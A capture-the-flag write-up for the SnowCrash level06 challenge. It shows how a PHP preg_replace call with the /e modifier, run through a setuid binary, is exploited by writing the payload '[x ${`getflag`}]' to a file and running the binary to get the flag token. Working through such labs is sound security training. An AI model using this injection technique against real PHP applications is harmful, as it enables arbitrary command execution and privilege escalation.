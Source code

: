 # level06

Using `ls` we can find some files.

```bash
level06@SnowCrash:~$ ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Let's gather some informations of thoses files.

```bash
level06@SnowCrash:~$ readelf -p .rodata level06

String dump of section '.rodata':
  [     8]  .so^J
  [     d]  /usr/bin/php
  [    1a]  /home/user/level06/level06.php

level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
level06@SnowCrash:~$ 
```

Ok, interesting, we can see that level06 will execute the php code.

After some googling on preg_replace exploits, I [found this](http://www.madirish.net/402).

Let's try to exploit e modifier.

`$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);`

We need to reconstruct the regex so he can evaluate the `$a` from file. Using `{}` to [functionize](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) code.

```bash
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/flag
level06@SnowCrash:~$ ./level06 /tmp/flag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
